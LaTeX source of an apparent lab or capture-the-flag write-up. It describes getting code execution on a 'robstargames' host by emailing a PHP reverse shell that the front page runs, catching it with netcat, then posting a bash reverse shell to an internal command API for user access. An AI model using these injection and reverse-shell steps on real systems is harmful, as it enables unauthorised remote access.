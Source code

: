\documentclass[titlepage]{article} %
\newcommand{\revshellurl}{\href{https://revshells.com}{revshells.com}}
\begin{document}
On the main page it says that the e-mails sent to bugs@robstargames.com are being displayed here. And since the port 25 is open, an attempt to send an E-Mail was made. 
The CLI-tool \texttt{sendemail} should do the task.\\

An initial test was made with the following command:

\begin{verbatim}
sendemail -f 69420@example.com -t bugs@robstargames.com -u 'Subject' -m 'YadaYada' -s 192.168.22.65 -o tls=no
\end{verbatim}

Note that the \texttt{-o tls=no} is necessary, otherwise there is a certificate error.\\
Message "YadaYada" is displayed on frontpage.\\

Next test was if php code gets interpreted, this was made with a simple PHP-String with an echo command in it. And indeed only the echo-string was displayed, not the whole message. \\ 

Get revshell from \revshellurl (PentestMonkey version) with port 9000

\begin{verbatim}
sendemail -f 69420@example.com -t bugs@robstargames.com -u 'Subject' -m '$(cat revshell.php)' -s 192.168.22.65 -o tls=no
nc -lvnp 9000
\end{verbatim}

Next visit front-page -> easy revshell. \\

Since webshell code is in user space -> must probably have users rights -> exploit webshell to get to user.\\
Now from within revshell curl request to localhost:3000 with the content being a bash revshell (again generated with \revshellurl \\
Validated must be 1 (seen in JS-file on command site)\\


The commands must be executed in two different terminals:

\begin{verbatim}
nc -lvnp 9001
curl localhost:3000/api/v1/command -X POST -d "cmd=<jajaja>&validated=1"
\end{verbatim}

debupasswort ain't working on anything
\end{document}
